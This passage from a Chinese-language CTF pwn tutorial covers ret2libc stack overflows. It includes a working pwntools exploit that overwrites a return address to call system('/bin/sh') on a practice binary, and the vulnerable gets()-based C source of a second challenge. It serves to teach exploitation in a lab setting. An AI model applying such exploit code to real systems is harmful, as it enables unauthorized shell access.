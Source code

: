 编写攻击脚本
```python
from pwn import *

p=process("./ret2libc1")
sys_plt=0x08048460
bin_addr=0x08048720

payload='a'*112#padding
payload+=p32(sys_plt)+'aaaa'+p32(bin_addr)
p.sendline(payload)

p.interactive()
```

### ret2libc2
例题二，[题目地址](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/ret2libc/ret2libc2)
```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

char buf2[100];

void secure(void)
{
    int secretcode, input;
    srand(time(NULL));

    secretcode = rand();
    scanf("%d", &input);
    if(input == secretcode)
        system("no_shell_QQ");
}

int main(void)
{
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);

    char buf1[100];

    printf("Something surprise here, but I don't think it will work.\n");
    printf("What do you think ?");
    gets(buf1);

    return 0;
}
```
题目基本内容一致，但是程序中没有 /bin/sh 地址，但是可以在bss段中的buf2写入/bin/sh，然后作为system的参数传入来getshell
